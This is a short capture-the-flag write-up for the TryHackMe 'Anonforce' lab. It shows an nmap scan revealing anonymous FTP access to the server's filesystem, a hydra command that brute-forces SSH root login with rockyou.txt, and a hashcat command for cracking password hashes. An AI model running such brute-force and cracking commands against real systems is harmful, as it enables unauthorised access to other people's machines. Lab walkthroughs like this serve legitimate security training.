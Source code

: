 # THM - Anonforce

## IP Address
10.10.211.151

## Write Up
1. do an Nmap scan.
```bash
#make a directory to store where you are going to store you nmap results
mkdir nmap
#scan for open ports and direct results to nmap/initial
nmap -p- -sV -sC -oN nmap/initial 10.10.211.151
```
2. The name results will result as shown. 2 ports will be open ```21``` and ```22```:
```
root@kali:~# nmap -p- -sV -sC -oN nmap/initial 10.10.211.151
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-23 10:33 UTC
Nmap scan report for ip-10-10-211-151.eu-west-1.compute.internal (10.10.211.151)
Host is up (0.0011s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 bin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 boot
| drwxr-xr-x   17 0        0            3700 Apr 23 03:32 dev
| drwxr-xr-x   85 0        0            4096 Aug 13  2019 etc
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 home
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img -> boot/initrd.img-4.4.0-157-generic
| lrwxrwxrwx    1 0        0              33 Aug 11  2019 initrd.img.old -> boot/initrd.img-4.4.0-142-generic
| drwxr-xr-x   19 0        0            4096 Aug 11  2019 lib
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 lib64
| drwx------    2 0        0           16384 Aug 11  2019 lost+found
| drwxr-xr-x    4 0        0            4096 Aug 11  2019 media
| drwxr-xr-x    2 0        0            4096 Feb 26  2019 mnt
| drwxrwxrwx    2 1000     1000         4096 Aug 11  2019 notread [NSE: writeable]
| drwxr-xr-x    2 0        0            4096 Aug 11  2019 opt
| dr-xr-xr-x  104 0        0               0 Apr 23 03:32 proc
| drwx------    3 0        0            4096 Aug 11  2019 root
| drwxr-xr-x   18 0        0             540 Apr 23 03:32 run
| drwxr-xr-x    2 0        0           12288 Aug 11  2019 sbin
| drwxr-xr-x    3 0        0            4096 Aug 11  2019 srv
| dr-xr-xr-x   13 0        0               0 Apr 23 03:32 sys
|_Only 20 shown. Use --script-args ftp-anon.maxlist=-1 to see all.
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.56.64
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8a:f9:48:3e:11:a1:aa:fc:b7:86:71:d0:2a:f6:24:e7 (RSA)
|   256 73:5d:de:9a:88:6e:64:7a:e1:87:ec:65:ae:11:93:e3 (ECDSA)
|_  256 56:f9:9f:24:f1:52:fc:16:b7:7b:a3:e2:4f:17:b4:ea (ED25519)
MAC Address: 02:36:EE:53:40:A6 (Unknown)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 5.10 seconds

```
3. You will get the first flag in ```/home/melodias/user.txt```

## Brute-forcing
4.  Unzip your rockyou.txt if it is still zipped in kali.
```bash
root@kali:~# cd /usr/share/wordlists/
root@kali:/usr/share/wordlists# ls
dirb       fasttrack.txt  metasploit  rockyou.txt.gz
dirbuster  fern-wifi      nmap.lst    wfuzz
root@kali:/usr/share/wordlists# gunzip rockyou.txt.gz
```

5. Use ```hydra``` to bruteforce the ssh root login.
```bash
hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://10.10.211.151
```

## John and Hashcat
refer to this writeup for the full detailed write up.
[Anonforce Writeup](https://www.embeddedhacker.com/2019/09/hacking-walkthrough-boot2root-ctf-anonforce/)

- write hashcat like this instead:
```bash
hashcat -D 1 -m 1800 hash.txt /usr/share/wordlists/rockyou.txt --force
```

